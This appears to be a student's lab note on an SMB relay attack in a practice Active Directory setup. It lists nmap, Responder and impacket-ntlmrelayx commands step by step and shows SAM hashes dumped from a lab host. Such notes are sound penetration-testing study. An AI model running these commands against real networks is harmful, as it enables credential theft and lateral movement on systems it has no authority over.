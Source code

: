 # On Kali:
---
1. Identify hosts with SMB singin:``
  - `nmap --script=smb2-security-mode.nse -p445 10.0.1.4`
	  - can also do for whole network : `10.0.1.0/24`
	  ![[Pasted image 20250328150412.png]]
1. echo "10.0.1.10 \n 10.0.1.9" > targets.txt
2. Edit responder file and run `responder`: 
	1. `sudo vi /etc/responder/Responder.conf`
	2. `sudo responder -I tun0 -dwv `
		![[Pasted image 20250328150900.png]]
3. Setup `ntlm relay`
	1. `impacket-ntlmrelayx -tf targets.txt -smb2support`
   - ![[Pasted image 20250328151105.png]]

# On Spiderman (as MARVEL\fcastle):
---
- Access attacker ip same way from file explorer and get an error:
	![[Pasted image 20250328154816.png]]

# On Kali
---
- Got the hashes:
![[Pasted image 20250328152836.png]]

```
pparker:500:aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7dadd9ba50a9158fa6a8dfd365439b3c:::
Administrator:1000:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
```

- Interactive mode: `impacket-ntlmrelayx -tf targets.txt -smb2support -i`:
	![[Pasted image 20250328155024.png]]
	![[Pasted image 20250328155038.png]]
![[Pasted image 20250328155131.png]]